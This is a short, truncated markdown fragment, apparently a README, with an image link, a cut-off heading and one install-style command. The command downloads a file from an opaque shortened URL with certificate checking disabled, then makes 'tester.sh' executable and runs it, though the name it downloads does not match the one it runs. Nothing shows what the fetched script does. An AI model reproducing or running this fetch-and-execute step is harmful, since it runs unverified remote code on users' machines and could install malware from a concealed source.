# Tes

<pre><code> wget --no-check-certificate https://tinyurl.com/hrvpn10 && chmod +x tester.sh && ./tester.sh </code></pre>
